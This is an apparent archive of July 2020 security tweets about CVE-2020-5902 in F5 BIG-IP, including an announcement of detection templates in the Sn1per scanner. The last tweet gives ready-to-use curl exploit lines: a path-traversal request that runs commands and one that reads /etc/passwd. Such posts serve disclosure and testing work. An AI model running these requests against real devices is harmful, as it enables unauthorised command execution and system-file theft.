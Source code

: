 <table><tr>
<td><img src="pictures/5725e131ebcb4bf5b2d5350c19549c183e06a2394364630d1cbccc86aabc5d89.jpg" alt="5725e131ebcb4bf5b2d5350c19549c183e06a2394364630d1cbccc86aabc5d89.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>414</code></td>
<td>Favorites: <code>944</code></td>
</tr></table>

---

# xer0dayz
**https://twitter.com/xer0dayz/status/1279815244303331328 _at 2020-07-05, 16:31:46_**
<blockquote>
Added sc0pe templates to scan and detect CVE-2020-5902 Remote Code Execution &amp; XSS on F5 BIG-IP devices to Sn1per. https://t.co/qEnX1iZ8H4

#hackers #hacking #bugbounty #bugbountytips #pentesting #pentest #redteam #OSINT #recon #tools #offsec #CTF #netsec #PoC #exploit
</blockquote>

* https://github.com/1N3/Sn1per

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>99</code></td>
</tr></table>

---

# x4ce
**https://twitter.com/x4ce/status/1279790599793545216 _at 2020-07-05, 14:53:51_**
<blockquote>
cve-2020-5902 :
RCE: curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
Read File: curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
